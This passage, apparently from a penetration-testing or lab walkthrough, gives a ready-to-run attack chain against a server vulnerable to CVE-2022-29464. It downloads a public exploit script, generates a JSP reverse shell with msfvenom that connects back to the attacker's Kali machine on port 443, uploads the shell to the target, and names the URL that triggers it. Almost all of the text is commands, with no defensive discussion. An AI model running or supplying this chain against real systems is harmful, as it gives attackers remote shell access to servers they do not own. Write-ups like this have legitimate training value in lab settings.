 ```
wget https://raw.githubusercontent.com/hakivvi/CVE-2022-29464/main/exploit.py
```
```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=$KALI LPORT=443 -f raw > reverse.jsp
```
```
python3 exploit.py https://$TARGET:9443 reverse.jsp
```
Next, we just visit:
`https://$TARGET:9443/authenticationendpoint/reverse.jsp`